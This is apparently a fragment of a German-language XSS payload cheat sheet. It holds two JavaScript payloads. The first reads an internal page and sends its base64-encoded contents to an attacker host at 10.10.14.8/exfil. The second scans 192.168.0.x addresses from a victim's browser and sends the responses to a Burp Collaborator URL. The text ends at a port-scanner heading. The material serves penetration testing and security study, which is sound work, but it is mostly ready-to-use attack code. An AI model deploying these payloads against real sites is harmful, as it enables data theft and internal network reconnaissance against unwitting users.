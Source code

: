 ### Seiteninhalt stehlen
```javascript
var url = "http://10.10.10.25:8000/vac/a1fbf2d1-7c3f-48d2-b0c3-a205e54e09e8";
var attacker = "http://10.10.14.8/exfil";
var xhr  = new XMLHttpRequest();
xhr.onreadystatechange = function() {
if (xhr.readyState == XMLHttpRequest.DONE) {
fetch(attacker + "?" + encodeURI(btoa(xhr.responseText)))
}
}
xhr.open('GET', url, true);
xhr.send(null);
```
### Interne IPs finden
```html
<script>
var q = []
var collaboratorURL = 'http://5ntrut4mpce548i2yppn9jk1fsli97.burpcollaborator.net';
var wait = 2000
var n_threads = 51

// Prepare the fetchUrl functions to access all the possible
for(i=1;i<=255;i++){
q.push(
function(url){
return function(){
fetchUrl(url, wait);
}
}('http://192.168.0.'+i+':8080'));
}

// Launch n_threads threads that are going to be calling fetchUrl until there is no more functions in q
for(i=1; i<=n_threads; i++){
if(q.length) q.shift()();
}

function fetchUrl(url, wait){
console.log(url)
var controller = new AbortController(), signal = controller.signal;
fetch(url, {signal}).then(r=>r.text().then(text=>
{
location = collaboratorURL + '?ip='+url.replace(/^http:\/\//,'')+'&code='+encodeURIComponent(text)+'&'+Date.now()
}
))
.catch(e => {
if(!String(e).includes("The user aborted a request") && q.length) {
q.shift()();
}
});

setTimeout(x=>{
controller.abort();
if(q.length) {
q.shift()();
}
}, wait);
}
</script>
```
### Port Scanner (fetch)